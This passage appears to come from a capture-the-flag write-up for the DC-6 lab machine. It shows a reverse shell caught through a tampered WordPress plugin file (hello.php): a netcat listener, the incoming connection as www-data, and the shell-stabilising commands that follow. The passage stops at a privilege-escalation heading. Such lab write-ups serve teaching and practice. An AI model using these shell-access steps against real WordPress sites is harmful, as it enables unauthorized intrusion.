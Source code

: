 ![Shell](images/shell.png)

Access to _wp-content/plugins/hello.php_ and get a shell.

```Console
nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.0.2.19] from (UNKNOWN) [10.0.2.24] 45806
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 03:48:34 up  1:34,  0 users,  load average: 0.00, 0.01, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ i
/bin/sh: 2: i: not found
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@dc-6:/$ ^Z
[1]  + 15015 suspended  nc -lvnp 1234
➜  ~ stty raw -echo; fg
[1]  + 15015 continued  nc -lvnp 1234
                                     reset xterm
www-data@dc-6:/$ export TERM=xterm

```
## Privilege Escalation
